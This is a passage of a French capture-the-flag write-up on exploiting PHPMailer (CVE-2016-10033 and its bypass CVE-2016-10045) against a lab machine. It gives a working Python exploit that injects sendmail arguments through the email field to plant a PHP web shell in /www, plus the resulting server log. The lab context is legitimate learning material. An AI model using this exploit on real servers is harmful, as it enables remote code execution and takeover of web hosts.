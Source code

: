 My turn
-------

Après avoir solutionné le CTF (voir la suite) je me suis repenché sur l'exploit et les actions qu'il provoque sur le serveur. Ça semble plus logique de mettre cette partie à cet endroit de l'article.  

J'ai réécrit l'exploit en utilisant la librairie *python-requests*. Pour avoir du multipart il suffit de remplir le dictionnaire *files* mais par défaut *python-requests* rajoute un *filename* pour chaque entrée qui semble faire échouer l'exploitation. J'ai résolu le problème via l'utilisation du tuple *(None, str)* pour les valeurs (de mémoire le premier élément du tuple est le nom de fichier).  

```python
import sys 
import requests 

RW_DIR = "/www" 
URL = "http://192.168.101.132/contact" 

# PHPMailer < 5.2.18 Remote Code Execution PoC Exploit (CVE-2016-10033) 
payload = f'"attacker\\" -oQ/tmp/ -X{RW_DIR}/phpcode.php  some"@email.com' 

# Bypass / PHPMailer < 5.2.20 Remote Code Execution PoC Exploit (CVE-2016-10045) 
# payload = f"\"attacker\\' -oQ/tmp/ -X{RW_DIR}/phpcode.php  some\"@email.com" 

RCE_PHP_CODE = "zz<?php system($_GET['cmd']); ?>zz" 

response = requests.post( 
    URL, 
    files={ 
        "action": (None, "submit"), 
        "name": (None, RCE_PHP_CODE + "_name"), 
        "email": (None, payload), 
        "message": (None, RCE_PHP_CODE + "_message"), 
    }, 
) 
print(response.status_code)
```

L'emplacement où écrire le fichier PHP n'a pas été choisit au hasard : en commentaire sur la page de contact on peut voir ceci :  

```html
	  <strong><i class="fa fa-exclamation-triangle" aria-hidden="true"></i> Oh snap!</strong> Something goes wrong, damn it!
	  <!-- FIXME!: www-path: /www -->	
```

On sait que ça fonctionne quand la requête met trois plombes à s'exécuter :D  

Le premier signe de l'exploitation côté serveur c'est l'apparition du process sendmail :  

```plain
2022/01/13 07:20:24 CMD: UID=33   PID=12964  | sh -c /usr/sbin/sendmail -t -i  -f"attacker\\" -oQ/tmp/ -X/www/phpcode.php  some\"@email.com
```
